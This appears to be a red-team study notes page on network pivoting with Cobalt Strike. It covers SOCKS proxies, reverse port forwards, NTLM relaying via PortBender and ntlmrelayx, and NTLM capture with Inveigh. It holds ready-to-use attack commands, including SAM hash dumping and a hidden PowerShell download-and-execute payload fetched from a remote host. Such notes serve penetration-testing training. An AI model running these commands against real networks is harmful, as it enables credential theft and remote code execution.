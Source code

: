 ```yaml
---
title: Pivoting
category: Red Team
order: 10
---
```


Pivoting are post-explotaiton techniques that allows us to access to the network where we have just landed.

# SOCKS Proxies

A SOCKS (Secure Socket) Proxy exchanges network packets between a client and a server via a "proxy".

It's very useful when we need to leverage with others toolsets that are only available in linux such as impacket.

To start a socks proxy we can use:

```
beacon> socks [port]
```
> **Note**: The port will binding on the Team Server.

Finally we can access it with `proxychains`.

```
proxychains -q [command] [arguments]
```

# Windows Apps

It is also possible to tunnel Windows GUI apps using `proxifier`.

* [https://www.proxifier.com/](https://www.proxifier.com/)

With Proxifier we can specify which application we want to tunneling.


# Port Forwarding

I will not explain what is a port forwarding since is detailed on `Post-Exploitation` section on this gitbook, but we will discuss how to execute it from Cobalt Strike.

```
beacon> rportfwd 8080 10.10.10.10 80
[+] started reverse port forward on 8080 to 10.10.10.10:80
```

To stop the forwarding:

```
beacon> rportfw stop 8080
```

> **Notes**:
> * Beacon's reverse port forward always tunnels the traffic to the Team Server and the Team Server sends the traffic to its intended destintation.
> * The traffic is tunnelled inside the Beacon's C2 traffic, not over separate sockets.
> * You don't need to be a local admin to create reverse port forwards on high ports.

`rportfwd_local` will tunnel the traffic to the machine running Cobalt Strike client instead of the Team Server.

```
beacon> rportfwd_local 443 127.0.0.1 443
[+] started reverse port forward on 443 to mvc1009 -> 127.0.0.1:443
```

# NTLM Relaying

During an on-premise assessments, NTLM relaying with tools like `responder` and `ntlmrelayx` is quite trivial. However in red team assessment, is not quite trivial because port 445 is always bound and in use by Windows machines.

It's still possible with Cobalt Strike, but requires the use of multiple capabilities.

1. Use a driver `WinDivert` to redirect traffic destinated for port 445 to another port (4445). It requires local admin access in order for loading the driver. Upload the driver to `C:\Windows\System32\drivers` since this is where most windows drivers go.

```
beacon> cd C:\Windows\System32\drivers
beacon> upload C:\Tools\PortBender\WinDivert64.sys
```
 * PortBender: [https://github.com/praetorian-inc/PortBender](https://github.com/praetorian-inc/PortBender)

Load `PortBender.cna` aggressor script and redirect the traffic.

```
beacon> PortBender redirect 445 4445
```

2. Create a reverse port forwarding that will then relay the traffic from port 4445 to port 445 on the Team Server where `ntlmrelayx` will be waiting.

```
beacon> rportfwd 4445 127.0.0.1 445
```

3. A SOCKS proxy is required to allow `ntlmrelayx` to send traffic back into the network.

```
beacon> socks 5566
```

4. Finally on the Team Server execute the `ntlmrelayx` tool, by default will execute `secretsdump` to dump local SAM hashes on the target machine.

```
proxychains -q python3 /usr/local/bin/ntlmrelayx.py -t smb://<target-ip> -smb2support --no-http-server --no-wcf-server
```

Instead of dumping SAM we can execute payloads such as beacons.

```
proxychains -q python3 /usr/local/bin/ntlmrelayx.py -t smb://<target-ip> -smb2support --no-http-server --no-wcf-server -c 'powershell -nop -w hidden -c "IEX(New-Object Net-WebClient).DownloadString(\"http://10.10.10.10/a\")"'
```

To stop `PortBender` just kill the process.

```
beacon> jobs
[*] Jobs

 JID  PID   Description
 ---  ---   -----------
 0    1240  PortBender

beacon> jobkill 0
beacon> kill 1240
```

# NTLM Capturing

We can use `Inveigh` to listen to incoming requests, similar to `Responder` but in .NET.

* [https://github.com/Kevin-Robertson/Inveigh](https://github.com/Kevin-Robertson/Inveigh)

`Inveigh` should be run as a local admin.

```
beacon> execute-assembly C:\Tools\Inveigh.exe -DNS N -LLMNR N -LLMNRv6 N -HTTP N -FileOutput N
```

It it also possible use the WinDivert, rportfwd and smbserver to capture the NetTLMHash.
